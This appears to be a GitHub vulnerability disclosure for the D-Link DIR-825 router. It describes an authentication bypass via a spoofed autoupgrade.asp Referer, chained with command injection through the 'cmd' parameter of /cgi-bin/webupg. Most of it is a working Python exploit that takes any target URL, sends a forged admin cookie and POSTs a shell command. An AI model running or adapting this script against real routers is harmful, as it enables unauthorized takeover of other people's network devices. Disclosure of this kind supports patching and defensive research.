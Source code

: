 # D-Link DIR-825 Unauthorized Remote Command Execution
An authorization command injection vulnerability about DIR-825

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DIR-825(G1): all
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DIR/dir825%20(new)/firmware/
## 1. Authentication bypasses the vulnerability

In the "webupg" binary, attackers can bypass authentication through parameters "autoupgrade.asp", and perform functions such as downloading configuration files and updating firmware without authorization.

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20133715.png)

Through the web port, attackers can access "autoupgrade.asp" without authorization.

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20140001.png)
#### BurpSuite Test

Replace "cgi-bin/webupg" at Referer with "autoupgrade.asp"

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20134942.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20135536.png)

## 2. Authorization Remote Command Execution

In the "webupg" binary, because of the lack of parameter verification, attackers can use "cmd" parameters to execute arbitrary system commands after obtaining authorization

`shell`
![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145714.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145811.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145901.png)

#### BurpSuite Test

Combine these two vulnerabilities, that attack can realize RCE

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145991.png)

## POC
<sup> 
  
  
  
    # DIR-825
    # hw:G1
    # fw:7.XX
    import urllib
    import requests
    import linecache
    import sys
    import threading
    from urllib.parse import urlparse
    from concurrent.futures import ThreadPoolExecutor
    import urllib3
    urllib3.disable_warnings()

    def attack(url):
        scheme = urlparse(url).scheme
        hostname = urlparse(url).hostname
        port = urlparse(url).port
        header={
            'Host':hostname+':'+str(port),
            'Origin': url,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Referer': url+'/autoupgrade.asp',
            'Cookie': 'sessionid=ae3aa37; auth=ok; expires=Sun, 15-May-9999 01:45:46 GMT; language=en_us; sys_UserName=admin',
            'Connection': 'close',
        }

        data=urllib.parse.urlencode(
            { 'name': 'shell',
              'cmd': 'ifconfig',
            'key': 'twmode',}, quote_via=urllib.parse.quote)
        urls = url+'/cgi-bin/webupg'
        try:
            ret = requests.post(url=urls,
                          headers=header,
                          data=data,
                          verify=False,
                          allow_redirects=False,
                          timeout=30,
                          )
        except Exception:
            return

    if __name__ == "__main__":
        rhost = sys.argv[1]
        attack(rhost)
</sup>
